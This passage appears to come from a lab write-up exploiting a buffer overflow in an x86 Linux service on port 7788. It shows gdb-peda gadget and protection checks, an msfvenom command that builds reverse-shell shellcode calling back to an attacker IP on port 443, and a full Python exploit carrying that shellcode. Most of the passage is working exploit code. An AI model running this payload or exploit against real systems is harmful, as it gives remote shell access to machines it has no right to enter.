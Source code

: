Then, I found the address to call the EAX register.

```console
gdb-peda$ jmp eax
0x8048563 : call eax
```

I checked for protections in the binary that might cause problems when executing the shellcode, but as it is observed the protections are disabled.

```console
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

The generated 95 bytes shellcode will try to connect to a netcat listener on port 443 on the attacking machine.

```console
root@kali:~# msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp \
> lhost=172.16.178.1 lport=443 -b "\x00\x0a\x0d" -f python \
> -v payload -o x86_shellcode.txt
```

The exploit code was built as follows:

```python
#!/usr/bin/env python3

import socket
import struct

ip = "127.0.0.1"
port = 7788

agentid = "48093572\n"
option = "3\n"

payload =  b""
payload += b"\xd9\xec\xd9\x74\x24\xf4\x5f\xb8\x87\x41\x33\x2c"
payload += b"\x33\xc9\xb1\x12\x31\x47\x17\x03\x47\x17\x83\x40"
payload += b"\x45\xd1\xd9\x7f\x9d\xe2\xc1\x2c\x62\x5e\x6c\xd0"
payload += b"\xed\x81\xc0\xb2\x20\xc1\xb2\x63\x0b\xfd\x79\x13"
payload += b"\x22\x7b\x7b\x7b\x19\x6b\xc9\x7a\x09\x8e\x2d\x7d"
payload += b"\x72\x07\xcc\xcd\xe2\x48\x5e\x7e\x58\x6b\xe9\x61"
payload += b"\x53\xec\xbb\x09\x02\xc2\x48\xa1\xb2\x33\x80\x53"
payload += b"\x2a\xc5\x3d\xc1\xff\x5c\x20\x55\xf4\x93\x23"

payload = payload.decode('latin-1')

buf = payload + "\x90" * (168 - len(payload)) 
# call to eax 0x8048563
buf += struct.pack("<L", 0x8048563).decode('latin-1')

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.recv(1024)
s.send(agentid.encode('latin-1'))
s.recv(1024)
s.send(option.encode('latin-1'))
s.recv(1024)
s.send(buf.encode('latin-1'))
print("Done!")
```
